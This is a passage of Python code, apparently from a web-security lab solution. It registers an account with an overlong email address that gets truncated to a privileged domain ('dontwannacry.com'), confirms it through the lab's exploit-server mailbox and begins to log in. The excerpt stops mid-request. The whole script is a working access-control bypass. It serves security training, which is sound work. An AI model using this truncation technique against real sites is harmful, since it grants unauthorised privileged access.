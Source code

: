 ```python!
cookies = {
    'session': session,
}

data = {
    'csrf': csrf,
    'username': 'a',
    'email': 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.exploit-0a9600890419dc4cc13d35cd019700fc.exploit-server.net',
    'password': 'a',
}

response = requests.post(
    url + '/register',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

# Get link from email

response = requests.get(
    'https://exploit-0a8e00ac038e32978191a620011b00ed.exploit-server.net/email',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
link = soup.find_all('a')[2]['href']
print(link)

# Get link to confirm register

response = requests.get(
    link,
    cookies=cookies,
    verify=False,
)

response = requests.get(
    url + '/register',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']


data = {
    'csrf': csrf,
    'username': 'a',
    'password': 'a',
}
session = requests.Session()
response = session.post(
    url + '/login',
    data=data,
    cookies=cookies,
    allow_redirects=False,
```